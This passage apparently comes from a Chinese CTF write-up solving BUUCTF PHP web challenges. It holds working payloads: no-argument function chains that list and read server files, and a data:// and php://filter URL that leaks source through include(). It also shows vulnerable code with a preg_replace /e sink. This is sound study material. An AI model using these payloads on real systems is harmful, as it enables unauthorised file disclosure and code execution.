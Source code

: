 `/[a-z,_]+\((?R)?\)/` 匹配的是类似于 `a(b(c()))` 的字符串, 要求替换之后的字符串全等于 `;`

也就是说 payload 格式只能是 `a(b(c()));`

明显利用的是无参数函数读文件 / rce 这个 trick

payload 如下

```
http://d02232b5-2e11-4816-99b5-03bac9959236.node4.buuoj.cn:81/
?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

![](assets/202208251751557-170074459625447.png)

## [BJDCTF2020]ZJCTF，不过如此(php伪协议传输数据，preg_replace()函数/e模式)

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

看着好熟悉

```
http://0c7c25eb-0cf1-48a3-9275-3e974778839f.node4.buuoj.cn:81/?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

next.php

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
```